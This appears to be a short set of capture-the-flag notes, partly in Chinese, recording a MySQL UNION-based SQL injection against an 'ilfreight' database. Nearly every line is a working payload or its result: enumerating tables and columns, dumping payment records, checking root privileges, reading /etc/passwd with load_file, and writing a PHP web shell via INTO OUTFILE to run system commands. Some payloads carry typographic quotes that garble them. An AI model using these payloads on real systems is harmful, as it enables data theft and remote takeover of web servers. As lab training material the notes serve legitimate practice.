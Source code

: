 1' union select 1,version(),database(),TABLE_NAME,TABLE_SCHEMA from information_schema.tables where table_schema='ilfreight’;-- -
1' union select 1,version(),database(),table_name,Table_schema from information_schema.tables where table_schema='ilfreight';-- -

result : users / payment

1' union select 1,version(),database(),column_name,4 from information_schema.columns where table_name=‘users’;— -

Result -> unknow column

' union select 1,version(), database(), column_name, 4 from information_schema.columns where table_name='payment’;--  -

result -> id name month amount tax 

1' union select 1,current_user(),user(),user from ilfreight.user;-- -

result: ilfreight not exist 

1' union select 1,name,month,amount,tax from ilfreight.payment;— -

Result: Adam (useless)
	    james (useless)


1' union select 1,user(),current_user(),4,5 from ilfreight.user;— -

Result: root@localhost

1' union select 1,grantee,privilege_type,4,5 from information_schema.user_privileges where grantee="'root'@'localhost'";— -

result ： 權限列表

1' union select 1,load_file(“/etc/passwd"),3,4,5;— -

Result: path列表

next: 上傳shell - > '<?php system($_request[0])?>' into outfile '<path>';-- -

next: go shell的路徑 'shell.php?0=id;ls;cd ..;ls;'

get flag ！！！！！！！
